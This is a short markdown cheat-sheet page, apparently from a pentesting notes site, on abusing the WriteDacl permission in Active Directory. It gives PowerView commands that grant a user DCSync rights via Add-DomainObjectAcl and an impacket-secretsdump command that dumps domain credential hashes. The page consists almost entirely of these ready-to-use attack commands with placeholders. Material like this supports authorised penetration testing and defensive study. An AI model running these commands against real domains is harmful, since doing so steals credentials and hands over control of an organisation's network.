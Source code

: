 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["Writedacl", "Dcsync", "Powerview", "Credential Dumping", "Active Directory", "Windows"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

{{< /tabcontent >}}

### 4. Secrets dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
